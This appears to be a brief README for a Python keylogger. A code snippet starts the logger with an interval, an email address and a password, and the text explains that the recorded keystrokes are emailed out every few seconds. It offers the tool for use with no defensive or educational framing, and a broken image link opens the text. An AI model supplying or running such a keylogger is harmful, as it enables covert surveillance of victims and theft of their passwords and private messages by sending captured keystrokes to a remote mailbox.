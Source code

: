 # Keylogger
Send a report of keylogs by email:

```python
keylogger = Keylogger(30, 'email', 'password')
keylogger.start()
```
The first parameter indicates every how many seconds the report will be sent to your email, and then provide an email and password for an account that will send the key logs to itself.